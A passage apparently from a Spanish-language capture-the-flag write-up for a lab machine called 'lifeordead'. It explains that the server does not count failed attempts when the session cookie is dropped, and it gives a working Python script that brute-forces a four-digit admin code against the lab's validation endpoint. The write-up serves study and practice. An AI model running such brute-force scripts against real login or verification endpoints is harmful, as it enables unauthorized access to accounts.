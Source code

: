Luego de una investigación acerca de las respuestas del servidor frente a diferentes tipos de solicitudes. El servidor no es capaz de validar la cantidad de intentos cuando manipulamos la `cookie` de sesión 


<div class="video-center">
  <video controls>
    <source src="{{ '/assets/images/posts/lifeordead-abusing-session-validation_1.mp4' | relative_url }}" type="video/mp4">
    Tu navegador no soporta la reproducción de videos.
  </video>
</div>


Aprovechando esto, no necesitamos contemplar la `cookie` de `PHPSESSID`, lo que facilitaría intentar fuerza bruta para adivinar el código. Construiremos un script en python que facilite esta tarea

~~~ python
import requests

url = "http://lifeordead.dl/pageadmincodeloginvalidation.php"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0",
    "Accept": "*/*",
    "Content-Type": "multipart/form-data; boundary=---------------------------2893980834370073535710702065",
    "Origin": "http://lifeordead.dl",
    "Referer": "http://lifeordead.dl/pageadmincodelogin.html",
    "Connection": "keep-alive"
}

def generate_payload(code):
    boundary = "---------------------------2893980834370073535710702065"
    return f"""--{boundary}
Content-Disposition: form-data; name="code"

{code}
--{boundary}--"""

def brute_force():
    for code in range(10000):  
        code_str = f"{code:04d}" # Definimos el código de 4 dígitos
        response = requests.post(url, data=generate_payload(code_str), headers=headers)

        try:
            result = response.json()
            if result["status"] == "success":
                print(f"[+] Found code : {code_str}")
                return code_str  # Detener el script si se encuentra el código correcto
        except Exception as e:
            print(e)


if __name__ == "__main__":
	print(f"[*] Starting 'code' brute force...\n")
    brute_force()
~~~
